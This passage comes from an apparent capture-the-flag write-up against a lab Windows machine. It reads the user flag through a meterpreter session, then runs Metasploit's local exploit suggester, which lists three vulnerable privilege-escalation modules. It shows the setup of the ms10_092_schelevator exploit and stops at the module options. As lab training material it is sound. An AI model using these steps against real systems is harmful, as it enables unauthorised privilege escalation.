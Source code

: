 I suggest you to play around with the available commands from **meterpreter** and to get familiar with it.

The following command will give you the user flag:

```bash
meterpreter > cat C:/Users/merlin/Desktop/user.txt
e29ad8[...]2f44a2f
```

Privilege Escalation
--------------------

The privilege escalation was very straight-forward for this box, especially with meterpreter.

We will use a great module for lazy people, which is called: **local_exploit_suggester**. 

### Local Exploit Suggester

Back in our metepreter session, we can call this module with the following command:

```bash
meterpreter > run post/multi/recon/local_exploit_suggester

[*] 10.10.10.93 - Collecting local exploits for x64/windows...
[*] 10.10.10.93 - 10 exploit checks are being tried...
[+] 10.10.10.93 - exploit/windows/local/ms10_092_schelevator: The target appears to be vulnerable.
[+] 10.10.10.93 - exploit/windows/local/ms16_014_wmi_recv_notif: The target appears to be vulnerable.
[+] 10.10.10.93 - exploit/windows/local/ms16_075_reflection: The target appears to be vulnerable.
```

So many options! :smiling_imp:

Let's try the first one...

### ms10_092_schelevator

We can background our current **meterpreter session** thanks to the command `background` so we go back to **msfconsole**.

Then, we can tell Metasploit to use **exploit/windows/local/ms10_092_schelevator**

```bash
msf exploit(multi/script/web_delivery) > use exploit/windows/local/ms10_092_schelevator
msf exploit(windows/local/ms10_092_schelevator) > options

Module options (exploit/windows/local/ms10_092_schelevator):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   CMD                        no        Command to execute instead of a payload
   SESSION                    yes       The session to run this module on.
   TASKNAME                   no        A name for the created task (default random)


Exploit target:

   Id  Name
   --  ----
   0   Windows Vista, 7, and 2008
```
